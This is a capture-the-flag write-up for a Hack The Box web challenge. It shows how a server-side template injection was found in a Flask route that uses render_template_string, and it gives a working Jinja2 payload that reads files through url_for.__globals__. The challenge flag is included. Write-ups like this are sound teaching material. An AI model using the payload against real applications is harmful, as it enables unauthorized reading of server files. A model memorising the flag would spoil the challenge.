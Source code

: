 ## Trial by Fire

Category: Web  

## Challenge
Website with warrior name input.  
Found 3 main parts:
- Home page (input warrior name)  
- /flamedrake (show status)  
- /battle-report (after battle action)

Checked for SSTI by inputting
```
{{7*7}}
```
Output still showed `{{7*7}}` (escaped).

Found hidden button using DevTools (CTRL + F → search "leet").  
Clue appeared:

```
{{ url_for.globals }}
```

## Solution
After analyzing source, found:
- /flamedrake uses `render_template()` → safe  
- /battle-report uses `render_template_string()` + f-string → vulnerable  

So SSTI only works in `/battle-report`.

Final Payload:
```jinja2
{{ url_for.__globals__['__builtins__']['open']('flag.txt').read() }}
```

- POST to `/begin` with warrior_name = payload  
- Trigger `/battle-report`

```
HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_ab21d35eb28870ad67229305ddfd57dc}
```
